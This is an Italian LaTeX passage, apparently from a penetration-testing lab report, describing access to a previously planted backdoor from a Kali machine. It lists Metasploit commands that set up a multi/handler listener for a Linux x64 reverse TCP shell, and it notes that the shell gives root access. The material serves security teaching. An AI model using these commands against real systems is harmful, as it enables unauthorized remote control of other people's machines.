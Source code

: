 \subsection{Collegamento alla \emph{backdoor} da parte della macchina \emph{Kali}}
In seguito all'installazione della \emph{backdoor} sulla macchina target risulta possibile accedervi dalla macchina \emph{Kali} senza l'utilizzo delle credenziali d'accesso. A tale scopo, risulta sufficiente aprire la console di \emph{Metasploit} ed eseguire i seguenti comandi per caricare l'\emph{exploit} ed il \emph{payload} che consentono di connettersi alla \emph{backdoor} creata:
\begin{lstlisting}[language=bash] 
    $ use exploit/multi/handler
    $ set LHOST 10.0.2.15
    $ set LPORT 4444
    $ set payload linux/x64/shell/reverse_tcp
    $ run
\end{lstlisting}
\begin{figure}[h]
    \centering
    \includegraphics[scale=0.6]{capitoli/images/backdoor_access.png}
    \caption{Accesso alla macchina target mediante la \emph{backdoor}}
    \label{fig:backdoor_access}
\end{figure}
Come mostrato nella figura \ref{fig:backdoor_access}, ci si collega alla macchina target acquisendo immediatamente i privilegi di \emph{root} in quanto la \emph{reverse shell}, essendo stata installata con l'utente \emph{root}, viene eseguita con i relativi privilegi.